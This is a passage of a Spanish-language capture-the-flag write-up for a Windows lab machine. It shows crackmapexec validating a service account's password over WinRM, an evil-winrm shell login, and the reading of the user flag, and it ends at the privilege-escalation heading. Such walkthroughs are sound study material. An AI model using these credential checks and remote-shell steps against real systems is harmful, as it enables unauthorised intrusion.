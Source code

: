 Bien, corresponde a un usuario válido. Como está el puerto de winrm abierto intentaremos ver si este usuario pertenece al grupo **Remote Management use** utilizando `crackmapexec`:

```
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

Observamos que si está en el grupo, por lo tanto, utilizando `evil-winrm` nos conectaremos a la máquina:

```
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

Ahora buscaremos la flag dentro del directorio personal del usuairo `svc-printer`:

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> dir


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         2/8/2023   8:29 PM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
a91d927f0709257aa634d1
```

Bien, ahora tenemos que encontrar la forma de convertirnos en domain admin.

## Escalada de privilegios
